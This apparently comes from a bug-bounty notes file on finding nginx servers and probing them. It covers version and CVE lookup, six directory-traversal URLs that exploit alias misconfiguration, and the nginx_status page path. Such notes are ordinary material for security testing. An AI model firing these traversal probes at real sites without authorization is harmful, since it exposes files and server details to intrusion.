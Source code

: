 # Nginx Common Bugs

## Introduction
What would you do if you came across a website that uses Nginx?

## How to Detect
Usually in the HTTP response there is a header like this `Server: nginx`

1. Find the related CVE by checking nginx version
* How to find the nginx version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated nginx version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-315/product_id-101578/F5-Nginx.html)

2. Directory traversal
```
https://example.com/folder1../folder1/folder2/static/main.css
https://example.com/folder1../%s/folder2/static/main.css
https://example.com/folder1/folder2../folder2/static/main.css
https://example.com/folder1/folder2../%s/static/main.css
https://example.com/folder1/folder2/static../static/main.css
https://example.com/folder1/folder2/static../%s/main.css
```

3. Nginx status page
```
https://example.com/nginx_status
```